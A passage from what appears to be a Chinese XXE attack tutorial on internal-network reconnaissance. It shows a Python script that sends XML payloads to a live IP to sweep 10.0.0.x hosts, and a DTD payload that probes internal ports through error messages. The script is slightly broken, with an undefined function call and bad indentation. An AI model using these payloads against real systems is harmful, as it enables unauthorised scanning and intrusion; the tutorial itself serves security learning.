 ```python 

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://34.200.157.128/CUSTOM/NEW_XEE.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
continue
```

**返回结果：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002648-e9a5fb54-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002648-e9a5fb54-ec17-1.png)

### **实验四：HTTP 内网主机端口扫描**

找到了内网的一台主机，想要知道攻击点在哪，我们还需要进行端口扫描，端口扫描的脚本主机探测几乎没有什么变化，只要把ip 地址固定，然后循环遍历端口就行了，当然一般我们端口是通过响应的时间的长短判断该该端口是否开放的，读者可以自行修改一下，当然除了这种方法，我们还能结合 burpsuite 进行端口探测

**比如我们传入：**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
<!ELEMENT data (#PCDATA)>  
]>
<data>4</data>
```

**返回结果：**

```
javax.xml.bind.UnmarshalException  
 - with linked exception:
[Exception [EclipseLink-25004] (Eclipse Persistence Services): org.eclipse.persistence.exceptions.XMLMarshalException
Exception Description: An error occurred unmarshalling the document  
Internal Exception: ████████████████████████: Connection refused
```

这样就完成了一次端口探测。如果想更多，我们可以将请求的端口作为 参数 然后利用 bp 的 intruder 来帮我们探测

**如下图所示：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002648-e9dea094-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002648-e9dea094-ec17-1.png)
